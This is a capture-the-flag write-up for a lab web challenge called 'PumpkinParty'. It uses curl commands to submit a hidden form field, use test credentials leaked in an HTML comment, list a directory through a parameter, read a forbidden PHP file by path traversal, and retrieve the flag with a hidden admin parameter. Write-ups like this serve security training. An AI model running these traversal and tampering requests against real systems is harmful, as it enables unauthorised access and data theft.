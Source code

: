 ## PumpkinParty
After we launched the container, we got an ip for the host. Let's call it `$HOSTIP`.

With `nmap $HOSTIP` we find out the host only listens on port 80.

Open that IP in a Web browser. It presents a page with a link at the bottom.
The link leads to a page for buying tickets, `/tickets.php`. It contains a form
with form fields for the number of tickets for each ticket type, e.g.
`normal_count` or `vip_count`.

The page's source code contains a comment which says that there's a fourth
ticket type 'merchant' which is not implemented yet. Since this type is not
included in the form we need to use `curl` to send a request with this ticket
type.

We used this command to submit the form with one merchant ticket:

    curl -i -H 'application/x-www-form-urlencoded' \
      -F 'merchant_count=1' http://$HOSTIP/tickets.php?action=submit

The response is HTTP 302 that redirects to `?action=confirm` and has a
`Set-Cookie` header with the key `PHPSESSID`. We save it for later use.

    PHPSESSID=b3ec83b80e0774419f9269dce56b45ce

Following 'confirm' with

    curl -iv -b PHPSESSID=b3ec83b80e0774419f9269dce56b45ce -v http://$HOSTIP/tickets.php?action=confirm

returns a page with a table where the order is summarized. There's a button that sends a request to `?action=buy`.

Let's send a request:


    curl -iv -b PHPSESSID=b3ec83b80e0774419f9269dce56b45ce -v http://$HOSTIP/tickets.php?action=buy

We get a page with an HTML comment saying:

    <!-- @WEBDEVS user/pass merch_test2/BUYMYSHORTS !!!REMOVE IN PROD!!! -->

The question is: Where is this merchant page?

We guess and send

    curl -u merch_test2:BUYMYSHORTS -vi http://$HOSTIP/merchants/

The returned page contains JavaScript that iterates over the response of
`/merchants/processor.php?a=registered` to display merchant information.
For each value that is returned at this path another GET request to
`/merchants/processor.php?b=<MERCHANT>` is sent to get information about each
merchant.

    curl -u merch_test2:BUYMYSHORTS http://$HOSTIP/merchants/processor.php?a=registered

    ["Bobs Bar","Himalaya Hats","Ingrids Imbiss"]

What happens if we replace the value `registered` with something else, say, a dot?

    curl -u merch_test2:BUYMYSHORTS http://$HOSTIP/merchants/processor.php?a=.

It yields a list of filenames:

    [".htaccess",".htpasswd","327a6c4304ad5938eaf0efb6cc3e53dc.php","index.php","processor.php","registered"]

Apparently, `registered` is a directory and there's a suspicious file
`327a6c4304ad5938eaf0efb6cc3e53dc.php`, which is in the same directory as
`processor.php`.

However, accessing `/merchants/327a6c4304ad5938eaf0efb6cc3e53dc.php` returns a HTTP 403 (forbidden).

We need to look into this file.

Since the JavaScript code sends requests to
`/merchants/processor.php?b=<MERCHANT>` and the value of this parameter seems
to be file, we could get the suspicious file this way.

`processor.php` outputs files given in parameter `b` which are in the directory
`registered`. Since `327a6c4304ad5938eaf0efb6cc3e53dc.php` is in a directory above `registered` we need to send

    curl -u merch_test2:BUYMYSHORTS -vi http://10.10.1.3/merchants/processor.php?b=../327a6c4304ad5938eaf0efb6cc3e53dc.php

The PHP file asks for a GET parameter `admin` that must have the value `sure`. So let's do the request

    curl -u merch_test2:BUYMYSHORTS -vi http://10.10.1.3/merchants/327a6c4304ad5938eaf0efb6cc3e53dc.php?admin=sure

The returned HTML page contains the flag: `DORF18{Y0UR_5H3LL_15_1N_4N0TH3R_C45TL3}`.
